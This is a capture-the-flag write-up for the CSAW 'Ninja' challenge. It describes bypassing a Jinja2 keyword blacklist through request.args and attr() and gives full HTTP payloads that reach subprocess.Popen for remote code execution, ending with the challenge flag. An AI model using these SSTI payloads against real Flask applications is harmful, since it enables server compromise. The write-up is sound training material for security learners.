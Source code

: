 ```yaml
---
description: Flask Server-Side Template Injection (SSTI)
---
```


# Ninja

## Description

Hey guys come check out this website I made to test my ninja-coding skills.

http://web.chal.csaw.io:5000

## Solution

The webpage is vulnerable to a Server-Side Template Injection \(SSTI\) vulnerability.

However, there are a few restrictions. Using any of the blacklisted words will yield the following error:

> Sorry, the following keywords/characters are not allowed :- \_ ,config ,os, RUNCMD, base

### Filter Bypass

I found this [excellent tutorial](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f) on how to bypass Jinja2 SSTI filters. Basically, we can pass in any of the blacklisted characters as GET request arguments, then access them through `request.args`.

This allows us to pass them into `attr()`, which is a Jinja2 [built-in filter](https://jinja.palletsprojects.com/en/3.0.x/templates/#builtin-filters) that gets an attribute of an object. `foo|attr("bar")` is equivalent to  `foo.bar`.

The following payload:

`/submit?value={{()|attr(request.args.c)}}&c=__class__`

will result in `().__class__` being evaluated and shown to the user.

### Finding subprocess.Popen

To get the subclasses, we do `().__class__.__base__.__subclasses__()`.

```http
GET /submit?value={{()|attr(request.args.c)|attr(request.args.b)|attr(request.args.s)()}}&c=__class__&b=__base__&s=__subclasses__ HTTP/1.1
Host: web.chal.csaw.io:5000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://web.chal.csaw.io:5000/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
```

I copied the output and used the following script to find `<class 'subprocess.Popen'>` in the subclasses. The index was 258.

```python
check = "..."
for index,value in enumerate(check.split(',')):
    if "subprocess.Popen" in value:
        print(index)
```

We are subsequently able to access this index to obtain RCE through `subprocess.Popen`.

### RCE

With access to `subprocess.Popen`, we simply have to leverage it to achieve RCE. 

```http
GET /submit?value={{()|attr(request.args.c)|attr(request.args.b)|attr(request.args.s)()|attr(request.args.g)(258)('ls',shell=True,stdout=-1)|attr('communicate')()|attr(request.args.g)(0)|attr('decode')('utf-8')}}&c=__class__&b=__base__&s=__subclasses__&g=__getitem__ HTTP/1.1
Host: web.chal.csaw.io:5000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://web.chal.csaw.io:5000/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
```

Finally, `cat flag.txt` gives us the flag!

![](../../.gitbook/assets/image%20%2878%29.png)

The flag is `flag{m0mmy_s33_1m_4_r34l_n1nj4}`.

